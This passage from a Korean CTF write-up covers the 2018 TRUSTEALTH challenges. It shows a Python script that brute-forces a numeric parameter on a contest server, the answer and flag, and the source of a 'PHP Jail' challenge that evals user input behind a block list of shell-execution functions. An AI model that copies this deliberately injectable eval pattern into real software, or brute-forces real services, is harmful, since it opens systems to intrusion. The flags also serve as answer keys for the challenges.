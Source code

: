 ```php
    echo "Try more! <br>";
}

show_source(__FILE__);

?>
```

브루트포싱 문제입니다.

````python
import requests

num = 0
while num < 9999:
    url = "http://dimitrust.oa.to:8080/trustctf/lucky_number/?number="+str(num)
    print url
    r = requests.get(url)
    response = r.content
    if "TRUST{" in response:
        break
    num += 1
print response
````

1337이 정답입니다.

`TRUST{you_are_good_at_programming` 

# [2018_TRUSTEALTH] \[Web] PHP Jail 

http://dimitrust.oa.to:8080/trustctf/jail/

```php
<?php

include __DIR__ . "/lib.php";

$filters = "system|assert|passthru|shell|exec|eval|read|open|dir|\.|_|curl|info";
if (isset($_GET['code']))
{
    if (preg_match("/{$filters}/i", $_GET['code']))
    {
        die("No hack ~_~");
    }
    eval($_GET['code']);
}

show_source(__FILE__);

?>
```
